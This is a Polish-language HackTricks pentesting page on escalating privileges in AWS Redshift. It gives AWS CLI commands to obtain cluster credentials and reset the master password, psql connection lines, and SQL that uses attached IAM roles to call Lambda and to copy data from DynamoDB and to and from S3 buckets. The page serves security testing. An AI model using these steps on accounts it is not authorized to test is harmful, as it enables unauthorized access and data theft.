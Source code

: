 # AWS - Eskalacja uprawnień w Redshift

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Redshift

Aby uzyskać więcej informacji na temat RDS, sprawdź:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Z tymi uprawnieniami możesz uzyskać **informacje o wszystkich klastrach** (w tym nazwę i nazwę użytkownika klastra) oraz **uzyskać poświadczenia**, aby uzyskać do niego dostęp:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Z tymi uprawnieniami możesz uzyskać **informacje o wszystkich klastrach** oraz **uzyskać poświadczenia dostępu** do nich.\
Należy zauważyć, że użytkownik postgres będzie miał **uprawnienia, które posiada tożsamość IAM**, użyta do uzyskania poświadczeń.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazach danych.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Możliwe jest **zmodyfikowanie hasła głównego** użytkownika wewnętrznego postgres (redshift) za pomocą aws cli (Myślę, że są to uprawnienia, których potrzebujesz, ale jeszcze ich nie testowałem):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazach danych.

## Dostęp do zewnętrznych usług

{% hint style="warning" %}
Aby uzyskać dostęp do wszystkich poniższych zasobów, będziesz musiał **określić rolę do użycia**. Klastr Redshift **może mieć przypisane listę ról AWS**, które możesz użyć, **jeśli znasz ARN**, lub po prostu ustaw "default", aby użyć domyślnej przypisanej roli.

Ponadto, jak [**wyjaśniono tutaj**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift pozwala również na łączenie ról (pod warunkiem, że pierwsza rola może przyjąć drugą) w celu uzyskania dalszego dostępu, ale wystarczy je **oddzielić** przecinkiem: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdy

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), możliwe jest **wywołanie funkcji lambda z redshift** za pomocą czegoś takiego jak:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), jest możliwe **odczytywanie i zapisywanie do kubełków S3**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Jak wyjaśniono w [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), możliwe jest **pobranie danych z dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Tabela Amazon DynamoDB, która dostarcza dane, musi być utworzona w tej samej regionie AWS co klastr, chyba że użyjesz opcji [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region), aby określić region AWS, w którym znajduje się tabela Amazon DynamoDB.
{% endhint %}

### EMR

Sprawdź [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

